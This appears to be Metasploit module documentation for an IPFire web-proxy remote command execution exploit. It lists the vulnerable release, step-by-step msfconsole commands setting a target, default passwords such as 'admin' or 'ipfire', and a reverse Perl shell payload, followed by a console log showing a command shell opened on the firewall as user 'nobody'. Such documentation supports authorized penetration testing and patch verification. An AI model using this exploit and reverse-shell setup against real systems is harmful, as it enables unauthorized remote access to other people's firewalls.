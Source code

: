 ## Vulnerable Application

  Official Source: [ipfire](http://downloads.ipfire.org/releases/ipfire-2.x/2.19-core100/ipfire-2.19.x86_64-full-core100.iso)
  Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

## Verification Steps

  1. Install the firewall
  2. Start msfconsole
  3. Do: ```use exploit/linux/http/ipfire_proxy_exec```
  4. Do: ```set password admin``` or whatever it was set to at install
  5. Do: ```set rhost 10.10.10.10```
  6. Do: ```set payload cmd/unix/reverse_perl```
  7. Do: ```set lhost 192.168.2.229```
  8. Do: ```exploit```
  9. You should get a shell.

## Options

  **PASSWORD**

  Password is set at install.  May be blank, 'admin', or 'ipfire'.

## Scenarios

  ```
    msf > use exploit/linux/http/ipfire_proxy_exec
    msf exploit(ipfire_proxy_rce) > set password admin
    password => admin
    msf exploit(ipfire_proxy_rce) > set rhost 192.168.2.201
    rhost => 192.168.2.201
    msf exploit(ipfire_proxy_rce) > set payload cmd/unix/reverse_perl
    payload => cmd/unix/reverse_perl
    msf exploit(ipfire_proxy_rce) > set verbose true
    verbose => true
    msf exploit(ipfire_proxy_rce) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(ipfire_proxy_rce) > exploit
    
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.201:49997) at 2016-05-30 10:09:39 -0400

    id
    uid=99(nobody) gid=99(nobody) groups=99(nobody),16(dialout),23(squid)
    whoami
    nobody
  ```